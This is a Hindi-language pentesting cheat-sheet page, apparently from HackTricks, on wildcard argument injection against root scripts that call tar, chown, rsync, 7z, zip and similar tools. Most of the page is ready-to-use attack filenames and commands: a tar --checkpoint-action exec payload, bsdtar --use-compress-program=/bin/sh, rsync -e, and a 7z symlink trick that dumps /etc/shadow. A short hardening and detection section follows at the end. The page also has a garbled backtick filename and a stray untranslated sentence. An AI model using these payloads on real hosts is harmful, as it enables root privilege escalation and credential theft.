 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wildcard (जिसे *glob* भी कहा जाता है) **argument injection** तब होती है जब एक विशेषाधिकार प्राप्त स्क्रिप्ट एक Unix बाइनरी जैसे `tar`, `chown`, `rsync`, `zip`, `7z`, … को एक बिना उद्धृत वाइल्डकार्ड जैसे `*` के साथ चलाती है।  
> चूंकि शेल वाइल्डकार्ड को बाइनरी को निष्पादित करने से **पहले** विस्तारित करता है, एक हमलावर जो कार्यशील निर्देशिका में फ़ाइलें बना सकता है, वह फ़ाइल नाम तैयार कर सकता है जो `-` से शुरू होते हैं ताकि उन्हें **डेटा के बजाय विकल्पों के रूप में** व्याख्यायित किया जा सके, प्रभावी रूप से मनमाने ध्वजों या यहां तक कि आदेशों को तस्करी करने में सक्षम हो।  
> यह पृष्ठ 2023-2025 के लिए सबसे उपयोगी प्राइमिटिव, हाल के शोध और आधुनिक पहचान को एकत्र करता है।

## chown / chmod

आप `--reference` ध्वज का दुरुपयोग करके **किसी भी फ़ाइल के मालिक/समूह या अनुमति बिट्स की कॉपी कर सकते हैं**:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
जब रूट बाद में कुछ इस तरह निष्पादित करता है:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` इंजेक्ट किया गया है, जिससे *सभी* मिलान करने वाले फ़ाइलें `/root/secret``file` के स्वामित्व/अनुमतियों को विरासत में लेती हैं।

*PoC & tool*: [`wildpwn`](https://github.com/localh0t/wildpwn) (संयुक्त हमला)।
विवरण के लिए क्लासिक DefenseCode पेपर भी देखें।

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

**checkpoint** फ़ीचर का दुरुपयोग करके मनमाने कमांड निष्पादित करें:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
एक बार जब रूट चलाता है जैसे `tar -czf /root/backup.tgz *`, `shell.sh` रूट के रूप में निष्पादित होता है।

### bsdtar / macOS 14+

हाल के macOS पर डिफ़ॉल्ट `tar` (जो `libarchive` पर आधारित है) `--checkpoint` को लागू नहीं करता है, लेकिन आप **--use-compress-program** ध्वज के साथ कोड-निष्पादन प्राप्त कर सकते हैं जो आपको एक बाहरी संकुचनकर्ता निर्दिष्ट करने की अनुमति देता है।
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
जब एक विशेषाधिकार प्राप्त स्क्रिप्ट `tar -cf backup.tar *` चलाती है, तो `/bin/sh` शुरू होगा।

---

## rsync

`rsync` आपको कमांड-लाइन फ्लैग के माध्यम से रिमोट शेल या यहां तक कि रिमोट बाइनरी को ओवरराइड करने की अनुमति देता है जो `-e` या `--rsync-path` से शुरू होते हैं:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
यदि रूट बाद में `rsync -az * backup:/srv/` के साथ निर्देशिका को संग्रहित करता है, तो इंजेक्ट किया गया ध्वज आपके शेल को दूरस्थ पक्ष पर उत्पन्न करता है।

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` मोड)।

---

## 7-Zip / 7z / 7za

यहां तक कि जब विशेषाधिकार प्राप्त स्क्रिप्ट *रक्षात्मक रूप से* वाइल्डकार्ड को `--` के साथ पूर्ववर्ती करती है (विकल्प पार्सिंग को रोकने के लिए), 7-Zip प्रारूप **फाइल सूची फ़ाइलों** का समर्थन करता है, फ़ाइल नाम को `@` के साथ पूर्ववर्ती करके। इसे एक सिम्लिंक के साथ मिलाकर आपको *मनमाने फ़ाइलों को एक्सफिल्ट्रेट* करने की अनुमति मिलती है:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
यदि रूट कुछ इस तरह निष्पादित करता है:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip `root.txt` (→ `/etc/shadow`) को फ़ाइल सूची के रूप में पढ़ने का प्रयास करेगा और बाहर निकल जाएगा, **stderr पर सामग्री प्रिंट करते हुए**।

---

## zip

`zip` ध्वज `--unzip-command` का समर्थन करता है जो *शब्दशः* सिस्टम शेल को पास किया जाता है जब संग्रह का परीक्षण किया जाएगा:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Inject the flag via a crafted filename and wait for the privileged backup script to call `zip -T` (test archive) on the resulting file.

---

## अतिरिक्त बाइनरी जो वाइल्डकार्ड इंजेक्शन के प्रति संवेदनशील हैं (2023-2025 त्वरित सूची)

निम्नलिखित कमांडों का आधुनिक CTFs और वास्तविक वातावरण में दुरुपयोग किया गया है।  पेलोड हमेशा एक *फाइलनाम* के रूप में बनाया जाता है जो एक लिखने योग्य निर्देशिका के अंदर होता है जिसे बाद में वाइल्डकार्ड के साथ संसाधित किया जाएगा:

| बाइनरी | दुरुपयोग करने के लिए ध्वज | प्रभाव |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → मनमाना `@file` | फ़ाइल सामग्री पढ़ें |
| `flock` | `-c <cmd>` | कमांड निष्पादित करें |
| `git`   | `-c core.sshCommand=<cmd>` | SSH के माध्यम से git के माध्यम से कमांड निष्पादन |
| `scp`   | `-S <cmd>` | ssh के बजाय मनमाना प्रोग्राम उत्पन्न करें |

ये प्राइमिटिव *tar/rsync/zip* क्लासिक्स की तुलना में कम सामान्य हैं लेकिन शिकार करते समय जांचने लायक हैं।

---

## पहचान और हार्डनिंग

1. **महत्वपूर्ण स्क्रिप्ट में शेल ग्लोबिंग को निष्क्रिय करें**: `set -f` (`set -o noglob`) वाइल्डकार्ड विस्तार को रोकता है।
2. **आर्गुमेंट्स को उद्धृत या एस्केप करें**: `tar -czf "$dst" -- *` *सुरक्षित* नहीं है — `find . -type f -print0 | xargs -0 tar -czf "$dst"` को प्राथमिकता दें।
3. **स्पष्ट पथ**: `*` के बजाय `/var/www/html/*.log` का उपयोग करें ताकि हमलावर `-` से शुरू होने वाली सहोदर फ़ाइलें नहीं बना सकें।
4. **कम से कम विशेषाधिकार**: जब भी संभव हो, बैकअप/रखरखाव कार्यों को रूट के बजाय एक अप्रिविलेज्ड सेवा खाते के रूप में चलाएं।
5. **निगरानी**: Elastic का पूर्व-निर्मित नियम *Potential Shell via Wildcard Injection* `tar --checkpoint=*`, `rsync -e*`, या `zip --unzip-command` के तुरंत बाद एक शेल चाइल्ड प्रोसेस की तलाश करता है। EQL क्वेरी को अन्य EDRs के लिए अनुकूलित किया जा सकता है।

---

## संदर्भ

* Elastic Security – Potential Shell via Wildcard Injection Detected rule (अंतिम अपडेट 2025)
* Rutger Flohil – “macOS — Tar wildcard injection” (18 दिसंबर 2024)

{{#include ../../banners/hacktricks-training.md}}
